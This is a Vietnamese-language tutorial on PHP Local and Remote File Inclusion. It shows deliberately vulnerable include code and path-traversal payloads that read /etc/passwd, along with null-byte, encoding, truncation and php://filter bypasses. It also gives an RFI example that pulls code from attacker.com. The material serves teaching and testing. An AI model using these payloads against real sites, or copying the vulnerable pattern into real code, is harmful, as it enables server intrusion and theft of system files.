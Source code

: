 # LFI (File Inclusion Vulnerability)

## 1. LFI là gì
LFI là một kĩ thuật tấn công cho phép kể tấn công có thể xem các tệp tin trên máy chủ từ xa của victim mà không cần không cần nhìn thấy hoặc có thể thực thi các mã vào 1 mục tiêu bất kì trên trang web.

Điều này xảy ra đa phần là các trang web có chứa ngôn ngữ PHP, các function dùng để gọi file khác vào như `require`, `include`, `include_once`, `require_once`. 

<p align="center">
  <img src="https://www.immuniweb.com/images/vulnerability/previews/php-file-inclusion-cwe-98.jpg" />
</p>
<center><small>`CWE-98 by PLOVER | Submission Date: 2006-07-19`</small></center>

Hiện nay thì các trang web ngoài sử dụng PHP còn có NodeJS và Python có khả năng lỗi ít hơn nhưng không phải là không có. Tương tự như php thì NodeJS có 1 số function như `require()`, `fs.readFile()`, `fs.readFileSync()`...
Hiện nay thì LFI/RFI được đưa vào top 10 OWASP được coi là "tiêu chuẩn" trong việc kiểm thử website.

## 2. Trong thực tế LFI được khai thác như thế nào

Trên thực tế thì có khá nhiều cách để khai thác lỗ hổng này:

Ví dụ vô cùng điển hình để đọc file passwd
```php
<?php
include $_GET['page'];
?>

```
```
http://example.com/index.php?page=../../../etc/passwd
```

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
landscape:x:110:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:111:1::/var/cache/pollinate:/bin/false
hyp:x:1000:1000:,,,:/home/hyp:/bin/bash
```

### a. Null byte (%00)

Null byte dùng để bypass các kí tự đằng sau nó

```php
<?php
include $_GET['page'].'.php';
?>
```

```
http://example.com/index.php?page=../../../etc/passwd%00
```
(Từ phiên bản PHP > 5.4 vấn đề này đã được giải quyét)
### b. Encoding Bypass:

Các kí tự đặc biệt có thể cần encoding URL 2 lần

```
/ => %2F => %252F
& => %26 => %2526
% => %25 => %2525
= => %3D => %253D
```
### c. Path truncation
Kĩ thuật này dùng dể bỏ qua phần nối đằng sau có kí tự nhiều hơn.

```php
<?php
include $_GET['page'].'.php';
?>
```

Ta sẽ gửi param GET vượt quá 4096 kí tự.

### d. PHP Wrapper

Điều này yêu mã code tại file muốn đọc bắt buộc phải encode theo 1 cách gì đó trước khi gửi cho người dùng (phổ biến trong CTF)

```
?page=php://filter/read=string.rot13/resource=index
?page=php://filter/convert.base64-encode/resource=index
?page=php://filter/zlib.deflate/convert.base64-encode/resource=
```

Ngoài ra còn có `zip://`, `data://`, `expect://`, ` input://`, ` phar://`,...

Demo Notepad LFI: https://lfi-kcsc-training.glitch.me

Source: [hypnguyen1209/demo-lfi](https://github.com/hypnguyen1209/demo-lfi)


## 3.RFI
Tương tự với LFI thì RFI  cho phép kẻ tấn công `include` và thực thi trên máy chủ nạm nhân 1 file được lưu trữ từ xa. 

Hacker có thể sử dụng RFI để chạy một đoạn code trên cả máy của người dùng và phía máy chủ. 

Ảnh hưởng của kiểu tấn công này thay đổi từ đánh cắp tạm thời session token hoặc các dữ liệu của người dùng cho đến việc tải lên các webshell, mã độc nhằm đến xâm hại hoàn toàn hệ thống máy chủ.

```
http://example.com/index.php?page=test
```

```php
<?php
include $_GET['page'].'.php';
?>

```

Như ví dụ LFI thay vì ta truyền tên file thì ta sẽ truyền đường dẫn chứ từ code của kẻ tấn công

```
http://example.com/index.php?page=http://attacker.com/exec
```
Khi người dùng truy cập thì lập tức mã độc trên sẽ được `include` thẳng vào code trên hệ thống vào gây là lỗi từ đó họ có thể chiếm quyền kiểm soát từ xa.

## . Tham khảo
https://securitydaily.net/tan-cong-file-inclusion/

https://www.immuniweb.com/vulnerability/php-file-inclusion.html

https://book.hacktricks.xyz/pentesting-web/file-inclusion#lfi-rfi-using-php-wrappers

